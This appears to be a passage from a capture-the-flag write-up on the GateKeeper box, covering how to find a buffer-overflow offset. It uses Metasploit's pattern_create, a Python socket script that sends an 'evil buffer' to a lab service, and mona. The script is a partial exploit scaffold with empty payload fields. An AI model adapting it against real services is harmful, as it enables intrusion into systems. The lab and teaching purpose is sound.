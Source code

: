 ### Finding the Offset
- so now we want to find the exact amount of bytes the application crashed
- we run the following to generate 20 bytes of characters, and put it in the payload portion of our script below

```shell
└─$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 200 
```

```python
import socket

ip = "192.168.88.132"
port = 31337

prefix = "gr4y "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

- then restart our application and reattach the executable and we run the script

![](assets/GateKeeper_assets/Pasted%20image%2020231203134321.png)

- after that we will use mona to find the offset using the command

```shell
!mona findmsp -distance 200
```
